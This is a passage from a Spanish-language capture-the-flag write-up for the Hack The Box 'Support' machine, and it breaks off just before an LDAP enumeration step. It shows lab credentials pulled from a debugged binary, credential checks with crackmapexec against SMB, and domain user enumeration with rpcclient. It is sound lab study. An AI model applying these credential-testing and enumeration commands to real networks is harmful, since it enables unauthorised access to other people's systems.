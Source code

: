 Vemos una conexión por LDAP con el usuario `ldap` y la contraseña, para poder verla crearemos un **breakpoint** justo en la conexión y leeremos el valor:

![dnSpy Debug](./3.png)

Ahora tenemos las credenciales `ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`, vamos a probarlas con la herramienta **crackmapexec**:

```bash wrap=false
❯ crackmapexec smb 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

### Enumerating Users

Usaremos `rpcclient` para conectarnos y ver todos los usuarios, además de guardárnos los en un archivo con el siguiente comando:

```bash wrap=false
❯ rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]'
Administrator
Guest
krbtgt
ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
```

### LDAP Enum

Para enumerar este servicio, como siempre, recurriremos a [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html#ldapsearch). De ahí sacaremos el siguiente comando: 
